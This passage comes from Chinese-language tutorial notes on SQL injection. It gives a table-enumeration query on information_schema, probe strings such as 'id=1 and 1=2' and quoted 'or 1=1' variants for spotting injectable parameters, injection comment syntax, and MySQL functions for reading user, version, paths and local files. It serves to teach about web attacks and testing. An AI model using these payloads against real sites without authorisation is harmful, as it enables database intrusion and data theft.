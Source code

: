 第二组：

```
select table_name from information_schema.tables where table_schema='student';
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/f63f9bcc-e822-4741-be3c-d6ef48f196df.png)

两组命令执行结果相同！

## 判断是否存在注入

回显是指页面有数据或者信息
无回显是指根据输入的语句页面没有任何变化，或者没有数据库中的内容显示到页面中

```php
id=1 and 1=1
id=1 and 1=2
id=1 or 1=1
id='1' or '1'='1'
id="1" or "1"="1"
```

## SQL注释符

```
#		单行注释		注意与url中的#区分，编码为%23
--空格		单行注释		注意为 减号 减号 空格
/* */		多行注释		至少存在两处的注入		/**/常用来充当空格
```

## SQL常用函数

```
system_user() 			系统用户名
user()					用户名
current_user 			当前用户名
session_user()			连接数据库的用户名
database()				数据库名
version() 				MYSQL数据库版本
load_file()				转成16进制或者是10进制MYSQL读取本地文件的函数
@@datadir				读取数据库路径
@@basedir				MYSQL安装路径
@@version_compile_os	操作系统
```
